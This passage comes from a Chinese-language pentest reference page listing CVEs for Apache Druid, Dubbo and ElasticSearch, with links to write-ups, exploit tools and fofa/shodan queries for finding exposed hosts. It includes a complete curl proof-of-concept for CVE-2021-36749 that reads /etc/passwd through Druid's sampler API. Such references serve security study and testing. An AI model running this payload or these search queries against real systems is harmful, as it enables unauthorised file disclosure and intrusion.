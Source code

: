 **CVE-2021-26919**
- 相关文章
    - [Apache Druid CVE-2021-26919 漏洞分析](http://m0d9.me/2021/04/21/Apache-Druid-CVE-2021-26919-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

**CVE-2021-36749**
- POC | Payload | exp
    ```
    curl http://127.0.0.1:8888/druid/indexer/v1/sampler?for=connect -H "Content-Type:application/json" -X POST -d "{\"type\":\"index\",\"spec\":{\"type\":\"index\",\"ioConfig\":{\"type\":\"index\",\"firehose\":{\"type\":\"http\",\"uris\":[\" file:///etc/passwd \"]}},\"dataSchema\":{\"dataSource\":\"sample\",\"parser\":{\"type\":\"string\", \"parseSpec\":{\"format\":\"regex\",\"pattern\":\"(.*)\",\"columns\":[\"a\"],\"dimensionsSpec\":{},\"timestampSpec\":{\"column\":\"no_ such_ column\",\"missingValue\":\"2010-01-01T00:00:00Z\"}}}}},\"samplerConfig\":{\"numRows\":500,\"timeoutMs\":15000}}"
    ```

---

### Dubbo

> 官网 : https://dubbo.apache.org/zh-cn/

> fofa: app="APACHE-dubbo"

Apache Dubbo 是一款高性能、轻量级的开源 Java RPC 框架，它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。

**相关工具**
- [threedr3am/dubbo-exp](https://github.com/threedr3am/dubbo-exp) - Dubbo 反序列化一键快速攻击测试工具，支持 dubbo 协议和 http 协议，支持 hessian 反序列化和 java 原生反序列化。

**CVE-2019-17564 pache Dubbo 反序列化漏洞**
- 相关文章
    - [漏洞复现|Dubbo反序列化漏洞CVE-2019-17564](https://www.cnblogs.com/wh4am1/p/12307848.html)
    - [[漏洞分析]CVE-2019-17564/Apache Dubbo存在反序列化漏洞](https://qiita.com/shimizukawasaki/items/39c9695d439768cfaeb5)
    - [Apache Dubbo反序列化漏洞（CVE-2019-17564）](https://mp.weixin.qq.com/s/oBWN0zTBREkvxXGEiaRcGg)

**CVE-2021-30179 Apache Dubbo RCE**
- 相关文章
    - [CVE-2021-30179：Apache Dubbo RCE复现](https://mp.weixin.qq.com/s/68JEDKPIhuOVWh6waTLZ1A)

**CVE-2021-43297**
- 相关文章
    - [Apache Dubbo Hessian2 异常处理时反序列化（CVE-2021-43297）](https://paper.seebug.org/1814/)

---

### ElasticSearch

> 官网 : https://www.elastic.co/

> shodan : port:9200 json

ElasticSearch 是一个基于 Lucene 的搜索服务器.它提供了一个分布式多用户能力的全文搜索引擎,基于 RESTful web 接口.Elasticsearch 是用 Java 开发的,并作为 Apache 许可条款下的开放源码发布,是当前流行的企业级搜索引擎.
